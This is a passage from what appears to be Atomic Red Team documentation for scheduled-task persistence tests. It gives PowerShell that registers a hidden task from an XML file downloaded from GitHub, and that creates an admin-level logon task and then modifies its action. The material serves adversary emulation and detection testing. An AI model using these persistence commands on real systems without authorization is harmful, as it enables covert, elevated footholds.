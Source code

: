 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$xml = [System.IO.File]::ReadAllText("#{xml_path}")
Invoke-CimMethod -ClassName PS_ScheduledTask -NameSpace "Root\Microsoft\Windows\TaskScheduler" -MethodName "RegisterByXml" -Arguments @{ Force = $true; Xml =$xml; }
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "atomic red team" -confirm:$false >$null 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{xml_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{xml_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{xml_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1053.005/src/T1053_05_SCTASK_HIDDEN_ATTRIB.xml" -OutFile "#{xml_path}"
```




<br/>
<br/>

## Atomic Test #9 - PowerShell Modify A Scheduled Task
Create a scheduled task with an action and modify the action to do something else. The initial idea is to showcase Microsoft Windows TaskScheduler Operational log modification of an action on a Task already registered. 
It will first be created to spawn cmd.exe, but modified to run notepad.exe.

Upon successful execution, powershell.exe will create a scheduled task and modify the action.

**Supported Platforms:** Windows


**auto_generated_guid:** dda6fc7b-c9a6-4c18-b98d-95ec6542af6d






#### Attack Commands: Run with `powershell`! 


```powershell
$Action = New-ScheduledTaskAction -Execute "cmd.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$User = New-ScheduledTaskPrincipal -GroupId "BUILTIN\Administrators" -RunLevel Highest
$Set = New-ScheduledTaskSettingsSet
$object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set
Register-ScheduledTask AtomicTaskModifed -InputObject $object
$NewAction = New-ScheduledTaskAction -Execute "Notepad.exe"
Set-ScheduledTask "AtomicTaskModifed" -Action $NewAction
```
